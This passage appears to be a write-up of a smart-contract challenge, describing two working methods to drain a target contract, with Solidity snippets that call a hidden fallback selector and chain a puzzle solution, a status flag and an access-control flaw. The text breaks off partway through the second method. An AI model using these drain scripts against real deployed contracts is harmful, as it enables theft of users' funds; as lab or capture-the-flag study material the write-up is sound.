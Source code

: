 <br >

---

## Two Working Attack Methods Discovered

Through analysis and testing, I discovered **two different working methods** to drain the contract. Each exploits different vulnerabilities and demonstrates the multiple attack vectors present in the contract.



### Method 1: Hidden Selector Fallback (`HiddenSelectorDrain.s.sol`)

**Strategy:** Exploit the hidden fallback selector combined with status activation.

**Key Discovery:** The contract has a hidden fallback selector `0xb5d09fae` that can drain funds when status is active:

```solidity
// First activate the status
(bool storeSuccess, ) = TARGET_CONTRACT.call(
    abi.encodeWithSelector(STORE_SELECTOR, "status", uint256(1))
);

// Then call the hidden selector
(bool success, bytes memory data) = TARGET_CONTRACT.call(abi.encodePacked(HIDDEN_SELECTOR));
```

**Attack Steps:**
1. Call `store("status", 1)` to activate the drain mechanism  
2. Call the hidden selector `0xb5d09fae` to trigger the fallback drain

**Result:** ✅ **SUCCESS**

---

### Method 2: Sequential Puzzle-Based Attack (`FinalDrainScript.s.sol`)

**Strategy:** Complete the full intended puzzle sequence to gain admin access.

**Key Discovery:** The contract has a designed sequence requiring puzzle solving and access control exploitation:

```solidity
// Step 1: Solve the puzzle
uint256[] memory puzzleInput = new uint256[](4);
puzzleInput[0] = 1;
puzzleInput[1] = 2;
puzzleInput[2] = 3; // 1 + 2 = 3
puzzleInput[3] = 6; // 3 * 2 = 6

(bool puzzleSuccess, ) = TARGET_CONTRACT.call(
    abi.encodeWithSelector(PUZZLE_SELECTOR, puzzleInput)
);

// Step 2: Activate status
(bool storeSuccess, ) = TARGET_CONTRACT.call(
    abi.encodeWithSelector(STORE_SELECTOR, "status", uint256(1))
);

// Step 3: Exploit access control flaw
(bool accessSuccess, ) = TARGET_CONTRACT.call(
    abi.encodeWithSelector(GET_ACCESS_SELECTOR, uint256(0))
);

```